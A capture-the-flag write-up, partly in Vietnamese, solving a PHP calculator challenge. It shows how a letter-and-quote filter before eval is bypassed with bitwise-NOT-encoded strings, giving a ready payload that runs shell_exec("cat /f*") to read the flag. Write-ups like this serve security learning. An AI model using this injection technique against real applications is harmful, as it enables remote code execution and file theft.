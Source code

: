 pcalc
===
### Description
A calculator service has been deployed at an enemy's agency, for their personel to be acquainted with human numbers. We need to inflitrate the application and get access to the secret flag stored inside it's system!

### Solution
Nhìn vào source code author cung cấp thì ta thấy được chương trình được viết bằng php và theo mô hình MVC
- Phân tích code: File `CalcController.php` này ![image](https://user-images.githubusercontent.com/54855855/115967695-3040e400-a55e-11eb-90f5-7bb9f2dbca85.png)
có một tham số để chúng ta input vào là `formula` và mặc định value của nó là `100*10-3+340` sau đó sẽ được chuyển qua hàm `getCalc` ở file `CalcModel.php` để tính toán
File `CalcModel.php` ![image](https://user-images.githubusercontent.com/54855855/115967743-739b5280-a55e-11eb-81b4-afeb808bec6b.png) input của chúng ta ở đây bị filter `a-z'"` và độ dài input phải < 100. Cuối cùng input của chúng ta được tính toán bằng cách sử dụng `eval` => chúng ta có thể command injection ở đây vì hàm eval là hàm dễ bị tổn thương.
- Với filter ở trên thì khá lỏng lẻo nên ở đây có nhiều cách để rce nó nhưng mình quyết định sử dụng payload với dấu `~`

### Payload
- Code gen kí tự 
```py
hex(~ord("p") & 0xff)
```
=> `(~%8F%97%8F%96%91%99%90)();`
Kết quả ![image](https://user-images.githubusercontent.com/54855855/115967902-60d54d80-a55f-11eb-8aed-dedc00ea1b11.png)
Payload solved
`(~%8c%97%9a%93%93%a0%9a%87%9a%9c)((~%d8%d8%9c%9e%8b%df%d0%99%d5%d8%d8))` -> shell_exec("cat /f*")